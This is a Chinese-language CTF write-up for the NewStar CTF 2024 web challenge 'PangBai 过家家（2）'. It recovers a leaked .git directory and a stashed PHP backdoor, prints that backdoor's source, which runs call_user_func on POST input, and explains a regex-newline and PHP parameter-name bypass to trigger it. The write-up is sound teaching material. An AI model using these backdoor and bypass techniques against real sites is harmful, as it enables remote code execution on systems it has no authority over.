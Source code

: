 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# PangBai 过家家（2）

题目所给出的提示是文件泄露（其实用 dirsearch 等扫描工具也可以扫描到 .git 目录）。

![任务一](/assets/images/wp/2024/week2/pangbai2_1.png)

使用 [GitHacker](https://github.com/WangYihang/GitHacker) 工具从 .git 文件夹中泄露文件到本地。

![使用 GitHacker](/assets/images/wp/2024/week2/pangbai2_2.png)

:::info 关于 GitHacker

GitHacker 工具可快速使用 pip 安装：

```bash
pip install githacker
```

:::

随后进入 output 文件夹，可以看到恢复的网站源码：

![查看恢复的源码](/assets/images/wp/2024/week2/pangbai2_3.png)

可以使用 git 命令查看当前项目的信息，比如使用 `git log` 查看提交历史

![查看提交历史](/assets/images/wp/2024/week2/pangbai2_4.png)

使用 `git reset HEAD~1` 可以回到上一个 Commit，或者直接使用 VSCode 打开泄露出来的 Git 存储库，能够更可视化地查看提交历史。

但是很遗憾，提交历史中并没有有价值的东西。查看 Stash：

```bash
git stash list
```

![git stash 输出信息](/assets/images/wp/2024/week2/pangbai2_5.png)

可以看到 Stash 中含有后门（实际上在 GitHacker 泄漏时就有 stash 的输出信息）

::: warning 注意

如果使用 GitHack 或其它的一些 Git 泄露获取工具，可能并不支持恢复 Stash.

:::

::: tip Stash 的作用

有时会遇到这样的情况，我们正在 dev 分支开发新功能，做到一半时有人过来反馈一个 bug，让马上解决，但是又不方便和现在已经更改的内容混杂在一起，这时就可以使用 `git stash` 命令先把当前进度保存起来。随后便可以即时处理当前要处理的内容。使用 `git stash pop` 则可以将之前存储的内容重新恢复到工作区。

又或者，我们已经在一个分支进行了修改，但发现自己修改错了分支，可以通过 Stash 进行存储，然后到其它分支中释放。

一些常见的 Stash 命令如：

- `git stash`

  保存当前工作进度，会把暂存区和工作区的改动保存起来。执行完这个命令后，在运行 `git status` 命令，就会发现当前是一个干净的工作区，没有任何改动。使用 `git stash save '一些信息'` 可以添加一些注释。

- `git stash pop [-index] [stash_id]`

  从 Stash 中释放内容，默认为恢复最新的内容到工作区。

:::

使用 `git stash pop` 恢复后门文件到工作区。

![恢复文件](/assets/images/wp/2024/week2/pangbai2_6.png)

发现了后门文件 `BacKd0or.v2d23AOPpDfEW5Ca.php`，访问显示：

![访问后门文件对应的网址](/assets/images/wp/2024/week2/pangbai2_7.png)

由于 `git stash pop` 已经将文件释放了出来，我们可以直接查看后门的源码：

```php
<?php

# Functions to handle HTML output

function print_msg($msg) {
    $content = file_get_contents('index.html');
    $content = preg_replace('/\s*<script.*<\/script>/s', '', $content);
    $content = preg_replace('/ event/', '', $content);
    $content = str_replace('点击此处载入存档', $msg, $content);
    echo $content;
}

function show_backdoor() {
    $content = file_get_contents('index.html');
    $content = str_replace('/assets/index.4f73d116116831ef.js', '/assets/backdoor.5b55c904b31db48d.js', $content);
    echo $content;
}

# Backdoor

if ($_POST['papa'] !== 'TfflxoU0ry7c') {
    show_backdoor();
} else if ($_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])) {
    print_msg('PangBai loves you!');
    call_user_func($_POST['func'], $_POST['args']);
} else {
    print_msg('PangBai hates you!');
}
```

后面的考点是 PHP 中关于非法参数名传参问题。我们重点关注下面这个表达式：

```php
$_GET['NewStar_CTF.2024'] !== 'Welcome' && preg_match('/^Welcome$/', $_GET['NewStar_CTF.2024'])
```

对于这个表达式，可以使用换行符绕过。`preg_match` 默认为单行模式（此时 `.` 会匹配换行符），但在 PHP 中的该模式下，`$` 除了匹配整个字符串的结尾，还能够匹配字符串最后一个换行符。

::: tip 拓展

如果加 `D` 修饰符，就不匹配换行符：

```php
preg_match('/^Welcome$/D', "Welcome\n")
```

:::

但如果直接传参 `NewStar_CTF.2024=Welcome%0A` 会发现并没有用。这是由 `NewStar_CTF.2024` 中的特殊字符 `.` 引起的，PHP 默认会将其解析为 `NewStar_CTF_2024`. 在 PHP 7 中，可以使用 `[` 字符的非正确替换漏洞。当传入的参数名中出现 `[` 且之后没有 `]` 时，PHP 会将 `[` 替换为 `_`，但此之后就不会继续替换后面的特殊字符了因此，GET 传参 `NewStar[CTF.2024=Welcome%0a` 即可，随后传入 `call_user_func` 的参数即可。

![获取到 flag](/assets/images/wp/2024/week2/pangbai2_8.png)
